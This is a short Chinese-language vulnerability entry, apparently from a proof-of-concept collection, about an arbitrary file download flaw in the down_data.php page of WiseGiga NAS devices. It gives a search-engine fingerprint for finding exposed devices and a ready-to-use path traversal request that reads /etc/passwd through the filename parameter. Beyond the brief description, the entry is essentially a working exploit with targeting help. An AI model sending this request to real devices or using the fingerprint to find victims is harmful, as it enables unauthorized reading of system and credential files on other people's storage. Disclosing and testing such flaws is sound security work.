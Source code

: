 # WiseGiga NAS down_data.php 任意文件下载漏洞

## 漏洞描述

WiseGiga 是一家销售网络连接存储（NAS ）产品的韩国公司。

WISEGIGA NAS down_data.php 存在任意文件下载漏洞，由于 /down_data.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
WiseGiga NAS
```

## 网络测绘

```
app="WISEGIGA-NAS"
```

## 漏洞复现

主页面

![image-20220628113649787](./images/202206281136917.png)

验证POC

```
/down_data.php?filename=../../../../../../../../../../../../../../etc/passwd
```

![image-20220628113749412](./images/202206281137504.png)